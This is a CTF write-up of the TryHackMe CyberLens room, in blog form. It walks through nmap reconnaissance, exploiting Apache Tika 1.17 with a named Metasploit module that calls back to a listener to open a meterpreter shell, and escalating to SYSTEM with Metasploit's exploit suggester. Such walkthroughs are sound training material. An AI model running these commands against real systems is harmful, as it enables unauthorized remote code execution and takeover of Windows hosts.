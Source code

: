 ```yaml
---
title: "CyberLens"
date: 2025-03-25
draft: false
summary: "Writeup for CyberLens CTF challenge on TryHackMe."
tags: ["windows", "rce"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cyberlens/cover.webp"
  caption: "CyberLens TryHackMe Challenge"
  alt: "CyberLens cover"
platform: "TryHackMe"
---
```


Can you exploit the CyberLens web server and discover the hidden flags?
<!--more-->
To access the machine, click on the link given below:
- https://tryhackme.com/room/cyberlensp6

## Reconnaissance

I added an entry for the IP in my `/etc/hosts` file. I then performed an **nmap** aggressive scan to find open ports and the services running on it:

```shell
nmap -A -p- -Pn TARGET --min-rate 10000 -oN cyberlens.nmap
```

| Port  | Service |
| ----- | ------- |
| 80    | http    |
| 135   | rpc     |
| 139   | netbios |
| 445   | smb     |
| 3389  | rdp     |
| 5985  | winrm   |
| 7680  | unknown |
| 47001 | winrm   |
| 49664 | rpc     |
| 49665 | rpc     |
| 49666 | rpc     |
| 49667 | rpc     |
| 49668 | rpc     |
| 49669 | rpc     |
| 49670 | rpc     |
| 49675 | rpc     |
| 61777 | http    |

![](https://cdn.ziomsec.com/cyberlens/1.webp)

![](https://cdn.ziomsec.com/cyberlens/2.webp)

## Initial Foothold

The **nmap** scan revealed an **http** server running on port 80 and 61777 so I accessed them from my browser.

![](https://cdn.ziomsec.com/cyberlens/3.webp)

![](https://cdn.ziomsec.com/cyberlens/4.webp)

The server running on port 61777 revealed the apache version being used. A simple google search revealed an **RCE** vulnerability.

I looked for exploits using **searchsploit** and found one on **metasploit**.

```shell
searchsploit 'tika 1.17'
```

![](https://cdn.ziomsec.com/cyberlens/5.webp)

I booted the **metasploit** framework and selected the exploit.

```shell
msfdb run
use exploit/windows/http/apache_tika_jp2_jscript
```

I configured the options and ran the exploit to get remote code execution.

```shell
set LHOST LISTENER_IP
set RHOST TARGET
set RPORT 61777
run
```

![](https://cdn.ziomsec.com/cyberlens/6.webp)

I then captured the user flag from the `C:\Users\CyberLens\Desktop\`.

```shell
cd C:\Users\CyberLens\Desktop
more user.txt
```

![](https://cdn.ziomsec.com/cyberlens/7.webp)

## Privilege Escalation

I then ran privilege escalation checks using **PowerUp** and **winPEAS** but found nothing interesting.

![](https://cdn.ziomsec.com/cyberlens/8.webp)

Since both of them revealed nothing of interest, I ran the local exploit suggester module in metasploit.

```shell
bg
use post/multi/recon/local_exploit_suggester
set SESSION <Number>
```

![](https://cdn.ziomsec.com/cyberlens/9.webp)

I after getting a bunch of recommendations, I tried each one of them one after the other. Starting with the first exploit, I configured the required options.

Running it got me root access on the target.

![](https://cdn.ziomsec.com/cyberlens/10.webp)

Finally I captured the root flag from the *Administrator's* Desktop.

![](https://cdn.ziomsec.com/cyberlens/11.webp)

## Closure

Here's a short summary of how I pwned CyberLens:
- An **nmap** scan revealed an Apache server running on port 61777
- Further reconnaissance revealed an RCE vulnerability for the version running on it.
- I exploited the vulnerability using **metasploit** and got a meterpreter shell.
- I used metasploit's post module to get exploit suggestions for privilege escalation.
- I used one of the suggested post exploit to escalate my privilege and get NT Authority/System access.

That's it from my side! Until next time :)

---
